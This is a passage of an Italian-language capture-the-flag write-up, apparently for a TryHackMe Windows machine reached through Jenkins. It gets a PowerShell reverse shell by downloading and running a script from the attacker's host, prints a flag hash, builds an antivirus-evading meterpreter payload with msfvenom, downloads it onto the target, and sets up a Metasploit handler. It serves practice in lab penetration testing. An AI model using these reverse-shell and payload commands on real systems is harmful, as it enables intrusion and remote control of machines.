 ```
powershell iex (New-Object Net.WebClient).DownloadString('http://10.11.116.149:8081/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.11.116.149 -Port 1234
```
ed infine facendo Build Now otteniamo la reverse shell

andiamo in
```
cd c:\Users\bruce\Desktop
```

```
type user.txt
```
flag
```
79007a09481963edf2e1321abd9ae2a0
```

Per semplificare l'escalation dei privilegi, passiamo a una shell meterpreter utilizzando la seguente procedura.

Utilizzare msfvenom per creare una shell inversa meterpreter di Windows utilizzando il seguente payload:

`msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=IP LPORT=PORT -f exe -o shell-name.exe`  

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.11.116.149 LPORT=1244 -f exe -o shell-name.exe
```
Qual è la dimensione finale del payload exe che hai generato?
```
Final size of exe file: 73802 bytes

```

```
python3 -m http.server 8000
```

Questo payload genera un payload meterpreter TCP inverso x86-64 codificato. I payload sono solitamente codificati per garantire che vengano trasmessi correttamente e anche per eludere i prodotti antivirus. Un prodotto antivirus potrebbe non riconoscere il payload e non contrassegnarlo come dannoso.

Dopo aver creato questo payload, scaricalo sulla macchina utilizzando lo stesso metodo del passaggio precedente:

`powershell "(New-Object System.Net.WebClient).Downloadfile('http://your-thm-ip:8000/shell-name.exe','shell-name.exe')"`

```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.11.116.149:8000/shell-name.exe','shell-name.exe')"
```

Prima di eseguire questo programma, assicurati che il gestore sia impostato in Metasploit :

`use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST your-thm-ip set LPORT listening-port run`  
